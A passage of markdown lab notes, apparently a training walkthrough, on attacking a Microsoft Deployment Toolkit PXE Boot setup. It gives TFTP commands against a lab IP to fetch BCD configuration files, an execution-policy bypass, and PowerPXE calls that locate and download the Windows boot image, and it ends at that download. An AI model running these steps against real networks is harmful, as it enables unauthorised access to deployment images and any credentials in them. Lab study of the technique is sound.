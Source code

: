 1. The first piece of information regarding the PXE Boot preconfigure **you would have received via DHCP is the IP of the MDT server**

2. The second piece of information **you would have received** was **the names of the BCD files**. These files store the information relevant to PXE Boots for the different types of architecture.

They look like `x64{327F2D4C-2BE5-4A3F-9F09-A44C40B319F3}.bcd`

3. The first step we need to perform is using `TFTP` and **downloading our BCD file to read the configuration of the MDT server**. 

TFTP is a bit trickier than FTP since we can't list files. 
Instead, we send a file request, and the server will connect back to us via UDP to transfer the file. 
Hence, we need to be accurate when specifying files and file paths. The BCD files are always located in the `/Tmp/ `directory **on the MDT server**. 
We can initiate the `TFTP` transfer using the following command in our SSH session:

```cmd
tftp -i MICROSOFT_DEPLOYMENT_TOOLKIT_MACHINE_IP GET "\Tmp\FILENAME.bcd" conf.bcd
```

Example :

```cmd
tftp -i 10.200.28.202 GET "\Tmp\x64{327F2D4C-2BE5-4A3F-9F09-A44C40B319F3}.bcd" conf.bcd
```

4. With the BCD file now recovered, we will be using ***powerpxe*** to read its contents. **Powerpxe is a PowerShell script** that automatically performs this type of attack but usually with varying results, so it is better to perform a manual approach. 

We will use the `Get-WimFile` function of ***powerpxe*** to recover the locations of the PXE Boot images from the BCD file

```cmd
powershell -executionpolicy bypass
```

```powershell
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
```

5. **WIM files are bootable images** in the **Windows Imaging Format (WIM)**. Now that we have the location of the PXE Boot image, we can again use `TFTP` to download this image

```cmd
tftp -i MICROSOFT_DEPLOYMENT_TOOLKIT_MACHINE_IP GET "PXE Boot Image Location" 
```

Example :

```cmd
tftp -i 10.200.28.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" 
```

This download will take a while since you are downloading a fully bootable and configured Windows image.
